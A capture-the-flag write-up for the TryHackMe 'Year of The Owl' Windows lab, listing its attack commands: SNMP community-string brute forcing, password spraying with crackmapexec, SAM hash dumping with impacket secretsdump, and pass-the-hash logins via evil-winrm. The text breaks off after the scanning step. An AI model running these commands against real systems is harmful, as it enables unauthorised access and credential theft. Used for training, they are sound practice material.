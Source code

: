 # TryHackMe-Year of The Owl

**Scope:**

- SNMP (Simple Network Management Protocol)
- SMB (Server Message Block)
- RDP (Remote Desktop Protocol)
- WinRM (Windows Remote Management)

**Keywords:**

- $Recycle.Bin
- SID (Security Identifier)
- Backup Files
- SAM (Security Account Manager)
- SAM Database
- NTLMHash
- LMHash
- RID (Relative Identifier)

**Main Commands:**

- `nmap -sV -sC -sU -Pn -T4 -A -p- --min-rate=300 --max-retries=3 -oN nmap_result.txt $target_ip`
- `onesixtyone $target_ip -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt`
- `hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt -q $target_ip snmp`
- `snmpwalk -c openview -v1 $target_ip 1.3.6.1.4.1.77.1.2.25 -n -f`
- `crackmapexec smb $target_ip -u Jareth -p /usr/share/wordlists/rockyou.txt --pass-pol --content`
- `evil-winrm -u Jareth -p sarah -i $target_ip`
- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak local`
- `evil-winrm -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a -i $target_ip`
- `evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a -i $target_ip`

**System Commands:**

- `whoami /all | Select-String -Pattern "jareth" -Context 2.0`
- `Get-ComputerInfo | Select-Object CsName,WindowsVersion,WindowsBuildLabEx`
- `gci -hidden .`
- `gci -path 'C:\$Recycle.Bin' -h`

### Laboratory Environment

[Year of the Owl](https://tryhackme.com/r/room/yearoftheowl)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sV -sC -sU -Pn -T4 -A -p- --min-rate=300 --max-retries=3 -oN nmap_result.txt $target_ip`

```bash
[REDACTED] - PORT AND VERSION INFORMATION
```
